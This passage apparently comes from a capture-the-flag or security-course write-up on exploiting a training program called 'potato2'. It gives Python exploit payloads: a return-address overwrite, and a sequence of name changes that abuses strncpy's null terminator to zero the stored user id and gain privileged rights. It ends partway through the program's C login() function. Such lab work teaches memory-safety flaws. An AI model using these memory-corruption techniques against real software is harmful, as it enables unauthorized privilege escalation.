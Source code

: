 ```python
# ...
payload=b"\x41"*58 + b"\x38\xce\xff\xff" + p32(0x0804b108)
# ...
```

## become privileged user without changing execution path (not requested)

It is possible to get privileged user credentialy without overwriting the stack return address. If we
overwrite the global user data structure such that we obtain a user id of zero, we get the credentials
without crashing the potato2 application at all. For that purpose, we exploit the fact that the `strncpy()`
functon always appends the string terminator `0x00` to the taget string:

```python
# ...
# overwrite user structure with user-chosen id: 0
# This overwrites the bytes of the global user-id via the strncpy() call in func.c, 190
# since strncpy adds a null terminator at session.logged_in_user->name[54]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*3 + b"\x0a"
p.sendline(payload)

# Repeat the same for session.logged_in_user->name[53]
p.sendline(b"changename")
payload=b"\x41"*50 + b"\x42"*2 + b"\x0a"
p.sendline(payload)

# Set our name back to peter
p.sendline(b"changename")
payload=b"peter" + b"\x0a"
p.sendline(payload)
p.interactive()
# At this point, we can use potato interactively again, but our user id is zero, 
# i.e. we are a "privileged user" and are allowed, e.g. to delete other users.
```

## change the execution flow to get authenticated for a privileged user

There is only one privileged user listed, which is `root`. In order to become root, the `login()` function
must be executed:

```c
void
login()
{
    char input_username[USERNAME_LENGTH];
    //char* input_password;
    char input_password[PASSWORD_LENGTH];
    t_user* user;

    fputs("Welcome!\n", stdout);
    fputs("username: ", stdout); fflush(stdout);
    fgets(input_username, USERNAME_LENGTH, stdin);
    input_username[strcspn(input_username, "\n")] = 0x00;
    // if terminal
    //input_password = getpass("Password: "); fflush(stdout);
    fputs("password: ", stdout); fflush(stdout);
    fgets(input_password, PASSWORD_LENGTH, stdin);
    input_password[strcspn(input_password, "\n")] = 0x00;
```